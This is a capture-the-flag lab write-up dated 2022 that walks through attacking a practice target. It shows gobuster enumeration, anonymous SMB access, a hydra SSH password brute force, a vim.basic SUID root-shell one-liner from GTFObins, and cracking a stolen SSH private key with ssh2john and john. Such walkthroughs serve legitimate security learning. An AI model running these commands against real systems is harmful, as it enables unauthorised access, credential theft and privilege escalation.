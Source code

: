 ***

Author: dxWiz

Date: 19 Mar 2022

***

# Task 1 Web App Testing and Privilege Escalation

Use the following command to enumerate the url for hidden directory

	gobuster dir -u $IP -w /usr/share/wordlist/dirbuster/diretory-list-2.3-medium.txt

and we found /development/ and two files dev.txt and j.txt, checkout both of the files.

From out initial nmap scan, we know that smb is present in the target, to list the available share, use the following command

	smbclient -L //$IP

then the next steps is to try connecting to the shared folder with the name of Anonymous

	smbclient //$IP/Anonymous -N

After that do and ***ls*** and ***get*** to download the file staff.txt. In the file there is a staff named Jan.

We will then use hydra to brute force jan password with the following command
	
	hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$IP

It is time to ssh into the target with the password obtained and we can start looking for any misconfigured SUID file with the following command

	find / -type f -perm -u=s 2>/dev/null

	/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
	/usr/lib/policykit-1/polkit-agent-helper-1
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/snapd/snap-confine
	/usr/lib/openssh/ssh-keysign
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/usr/bin/vim.basic
	/usr/bin/pkexec
	/usr/bin/newgrp
	/usr/bin/chfn
	/usr/bin/sudo
	/usr/bin/chsh
	/usr/bin/newgidmap
	/usr/bin/at
	/usr/bin/gpasswd
	/usr/bin/newuidmap
	/usr/bin/passwd
	/bin/su
	/bin/ntfs-3g
	/bin/ping6
	/bin/umount
	/bin/fusermount
	/bin/mount
	/bin/ping


vim.basic looks interesting and by referencing to GTFObins we can do a PE with the following command

	/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")' 


With the root access we can then go to kay home directory and read the pass.bak file to get the file answer for the last question.

******

There is another way to gain root access without exploiting the misconfigured SUID file which is to get kay's ssh private key from her folder /home/kay/.ssh

We should do this before using the private key

	chmod 600 kay_id_rsa  

When we try to ssh with the following command 

	ssh -i kay_id_rsa kay@10.10.19.202
	Enter passphrase for key 'kay_id_rsa': 

It is asking for a passphrase, let's brute force the passphrase by first doing ssh2joh

	ssh2john kay_id_rsa > ssh2john.txt


It's time to brute force the passphrase of the key with john

	john --wordlist=/usr/share/wordlists/rockyou.txt ssh2john.txt
	
 and then ssh to the target and read the pass.bak file for answer.	
